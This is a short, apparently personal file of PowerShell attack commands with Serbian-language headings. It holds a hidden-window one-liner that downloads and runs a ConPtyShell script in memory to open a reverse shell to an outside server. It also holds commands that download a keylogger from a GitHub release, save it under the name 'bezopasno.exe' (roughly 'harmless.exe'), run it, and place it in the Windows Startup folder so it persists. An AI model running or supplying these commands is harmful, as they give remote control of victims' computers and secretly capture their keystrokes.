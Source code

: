 --- POVEZIVANJE ---

powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

--- SKIDANJE I POKRETANJE KEYLOGGERA ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"
& "$env:LOCALAPPDATA\bezopasno.exe"

--- SKIDANJE I POKRETANJE KEYLOGGERA NA STARTUPU (MORA BITI ADMIN) ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
& "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
